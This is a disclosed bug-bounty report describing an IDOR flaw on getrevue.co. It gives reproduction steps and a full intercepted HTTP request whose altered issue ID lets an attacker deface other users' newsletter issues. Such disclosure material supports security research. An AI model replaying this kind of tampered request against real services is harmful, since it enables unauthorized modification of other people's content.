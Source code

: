 # Ability to add arbitrary images/descriptions/titles to ohter people's issues via IDOR on getrevue.co

## Report Details
- **Report ID**: 1096560
- **URL**: https://hackerone.com/reports/1096560
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-02-05T17:50:44.767Z
- **Disclosed**: 2021-05-26T21:56:54.060Z

## Reporter
- **Username**: mirhat
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
**Summary:** 

Hi team,
I discovered a vulnerability that allows an attacker to add arbitrary images/descriptions/titles to other people's issues via IDOR

**Description:**

It's possible to perform a IDOR attacker on `getrevue.co`when adding a image to your issue it's also possible to add descriptions and more to other people's issue

## Steps To Reproduce:

   1. Go to `getrevue.co` and Sign In
   2. Click on Issues then Click on Add new issue
   3. Go to the Issue that you created and from the bottom of the page Click on Media
   4. Turn on the Intercept and Upload image
   5. On the request change the ID to your other account's issue ID

Request:

```
POST /app/items HTTP/1.1
Host: www.getrevue.co
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://www.getrevue.co/app/issues/current
X-CSRF-Token: qbWPNjfb12c1Plj7WrYDYgQFgWl2IaZr6/Qr/Vf5WyaDGyf68jn1mzx3xwtgFxBBX19RkHs/YHiREA7Ae6PGqg==
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 519
Origin: https://www.getrevue.co
Connection: close
Cookie: [YOUR_COOKIE]

{"item_type":"image","issue":347976,"id":null,"title":"Your account has been hacked","url":"","description":"Your account has been hacked","author":"Your account has been hacked","publication":"Your account has been hacked","section":"Your account has been hacked","image":"https://revue-direct-production.s3.amazonaws.com/cache/30fd80f79ad919f1e310aa97e0ab7940/7dc308f18b70ba627eb954d2d5376bea.png","image_file_name":"","created_at":"","tweet_handle":"","tweet_profile_image":"","tweet_description":"","tweet_lang":""}
```

POC video:

{F1185366}

## Impact

Ability to add arbitrary images/descriptions/titles to other people's issues
It's possible to hijack other people's issues

## Attachments
- Ekran_Kayd__2021-02-05_20.39.45.mov
